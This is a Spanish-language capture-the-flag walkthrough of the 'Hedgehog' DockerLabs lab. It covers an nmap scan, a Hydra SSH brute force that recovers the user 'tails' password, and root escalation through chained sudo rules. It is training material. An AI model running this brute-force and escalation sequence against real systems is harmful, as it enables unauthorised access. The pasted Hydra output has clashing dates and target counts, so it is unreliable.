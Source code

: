 ```yaml
---
icon: flag
---
```


# Hedgehog DockerLabs (Very Easy)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip hedgehog.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh hedgehog.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-23 03:47 EST
Nmap scan report for ctf403.hl (172.17.0.2)
Host is up (0.000038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 34:0d:04:25:20:b6:e5:fc:c9:0d:cb:c9:6c:ef:bb:a0 (ECDSA)
|_  256 05:56:e3:50:e8:f4:35:96:fe:6b:94:c9:da:e9:47:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.72 seconds
```

En la pagina web vemos una palabra llamada `tails` por lo que podemos intuir que puede ser un nombre de usuario.

## Hydra

```shell
hydra -l tails -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-23 03:55:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: tails   password: 3117548331
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-08 07:42:21
```

Vemos que hemos sacado las credenciales de dicho usuario, por lo que nos conectaremos por `ssh`.

## SSH

```shell
ssh tails@<IP>
```

Metemos como contraseña `3117548331` y veremos que estamos dentro.

## Escalate privileges

Si hacemos `sudo -l` veremos lo siguiente.

```
User tails may run the following commands on fd41cefc8882:
    (sonic) NOPASSWD: ALL
```

Por lo que vemos podemos ejecutar cualquer binario bajo el usuario `sonic`, pero si hacemos lo siguiente seremos `root` de una.

```shell
sudo -u sonic sudo su
```

Y con esto seremos `root`, ya que el usuario `sonic` tiene los siguientes permisos:

```
User sonic may run the following commands on fd41cefc8882:
    (ALL) NOPASSWD: ALL
```

Basicamente puede hacer todo como si fura `root`, por lo que podemos escalar de una.
